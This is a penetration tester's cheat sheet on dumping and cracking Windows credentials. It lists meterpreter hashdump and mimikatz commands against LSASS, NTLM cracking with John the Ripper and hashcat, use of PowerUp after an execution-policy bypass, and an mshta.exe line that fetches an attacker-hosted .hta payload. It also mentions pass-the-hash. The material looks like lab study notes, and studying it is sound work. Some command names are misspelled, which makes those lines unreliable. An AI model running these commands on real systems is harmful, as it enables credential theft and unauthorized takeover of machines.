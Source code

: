 # Windows Credential Dumping and Cracking

- **LSSAS service - Local Security Authority Subsystem Service**
	- stores cache of SAM database (Security Account Manager)
	- migrate to lsass process: pgrep lsass
	- meterpreter command: hashdump - copy/paste as-is in a file (hash_file)

- meterpreter module: mimikatz : load kiwi

- johntheripper: for ntlm hash
	- john --list=formats
	- john --format=NT hashes.txt --wordlist=<wordlist_path>

- hashcat
	- -m specifies hash_type. eg. 1000=ntlm
	- -a specifies attack_mode. eg 3=brute-force
	- hashcat -m 1000 -a3 <hash_file> <wordlist>	

Useful metasploit modules
	- auxiliary/analyze/crack_windows : set custom_wordlist 
	- run this module after running hashdump - once creds are stored in msfdb
	
	
# PowerUp

- https://github.com/PowerShellMafia/PowerSploit

- In target machine:
	- powershell -ep bypass (PowerShell execution policy bypass)
	- . .\PowerUp.ps1
	- Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
	- Get password from the Unattend.xml file, decode base64.
	- 
	  ```
	  $password='QWRtaW5AMTIz'
  	  $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	  echo $password
  	  ```
	- runas.exe /user:administrator cmd

- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta

# Mimikatz

- check [Host-based attacks > Windows > SMB](../Host%20Based%20Attacks/win-SMB.md)
- in meterpreter, first, migrate to lsass.exe process.
- syskey is used to encrypt sam db
- load kiwi
	- creds_all
	- las_dump_sam
	- lsa_dump_secrets
- alrenatively, create temp directory in C:\Temp and 
- upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
- .\mimkatz.exe
	- privilege::debug - should return Privilege '20' OK
	- lsadump::sam
	- sekurlsa::logonpasswords
- Use psexec module for pass-the-hash attack